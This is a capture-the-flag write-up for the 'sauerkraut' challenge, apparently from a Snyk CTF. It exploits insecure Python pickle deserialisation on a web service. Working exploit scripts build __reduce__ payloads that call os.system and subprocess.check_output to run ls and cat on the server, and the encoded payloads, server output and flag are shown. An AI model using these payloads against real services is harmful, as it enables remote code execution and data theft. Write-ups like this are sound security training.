 # sauerkraut

## Challenge

We are presented with a webpage with an input and output field.
There is no explanation about the format of the input or output.

We can type plaintext in the input field and submit it, which sends our input to the remote server.
The server returns a response in plaintext, which is displayed in the output box.

## Solution

If we just enter the placeholder text, we get a useful error message as our response:

```
Input:
Enter text here...

Output:
Invalid base64-encoded string: number of data characters (13) cannot be 1 more than a multiple of 4
```

The program clearly expects a base64 input, so we can try something generic such as "AAAA" to see how it responds:

```
Input:
AAAA

Output:
invalid load key, '\x00'.
```

Googling this error message brings up posts about unpickling in Python, which is used to deserialise data.
This process is notoriously unsafe and it is strongly advised to avoid unpicking any user-controlled data.

We can use this by writing our own Python code and pickling it such that, when unpickled, the program executes our payload.
To do so, I used an example from https://blog.nelhage.com/2011/03/exploiting-pickle/

If we try using code from the article to call `nc`, the output is a single number:

```py
#!/usr/bin/env python2

import cPickle
import os
import base64

class Exploit(object):
    def __reduce__(self):
        return (os.system, ('nc', ))

print "nc:"
print base64.b64encode(cPickle.dumps(Exploit()))
```

```
Input:
Y3Bvc2l4CnN5c3RlbQpwMQooUyduYycKcDIKdHAzClJwNAou

Output:
32512
```

Googling this error code as "python os.system 32512" tells us that this is an error code which is often seen when the program cannot find the binary to execute.

We now know that netcat is likely not available, but also that the output is the return value of our code.

Using this information, we can modify our code to use `subprocess.check_output()` such that the return value is the output of our shell commands.

For example, the command `ls` can be encoded as:

```py
#!/usr/bin/env python2

import cPickle
import subprocess
import base64

class Exploit(object):
    def __reduce__(self):
        return (subprocess.check_output, ('ls', ))

print base64.b64encode(cPickle.dumps(Exploit()))
```

```
Input:
Y3N1YnByb2Nlc3MKY2hlY2tfb3V0cHV0CnAxCihTJ2xzJwpwMgp0cDMKUnA0Ci4=

Output:
b'app\nflag\ngunicorn_config.py\nrequirements.txt\n
```

We can see that the flag file is located in the same directory as the application.

Using the same technique, we can read this flag file:

```py
#!/usr/bin/env python2

import cPickle
import subprocess
import base64

class Exploit(object):
    def __reduce__(self):
        return (subprocess.check_output, (['cat','flag'], ))

print base64.b64encode(cPickle.dumps(Exploit()))
```

```
Input:
Y3N1YnByb2Nlc3MKY2hlY2tfb3V0cHV0CnAxCigobHAyClMnY2F0JwpwMwphUydmbGFnJwpwNAphdFJwNQou

Output:
b'SNYK{6854ecb17f51afdf2610f741dd07bd6099c616e4ab1a403eb14fa8639e1fb0af}\n'
```

## Exploit

```py
#!/usr/bin/env python2

import cPickle
import subprocess
import base64

class Exploit(object):
    def __reduce__(self):
        return (subprocess.check_output, ('ls', ))

print "ls:"
print base64.b64encode(cPickle.dumps(Exploit()))

print ""

class Exploit(object):
    def __reduce__(self):
        return (subprocess.check_output, (['cat','flag'], ))

print "cat flag:"
print base64.b64encode(cPickle.dumps(Exploit()))
```

```
ls:
Y3N1YnByb2Nlc3MKY2hlY2tfb3V0cHV0CnAxCihTJ2xzJwpwMgp0cDMKUnA0Ci4=

cat flag:
Y3N1YnByb2Nlc3MKY2hlY2tfb3V0cHV0CnAxCigobHAyClMnY2F0JwpwMwphUydmbGFnJwpwNAphdFJwNQou
```

## Flag

`SNYK{6854ecb17f51afdf2610f741dd07bd6099c616e4ab1a403eb14fa8639e1fb0af}`


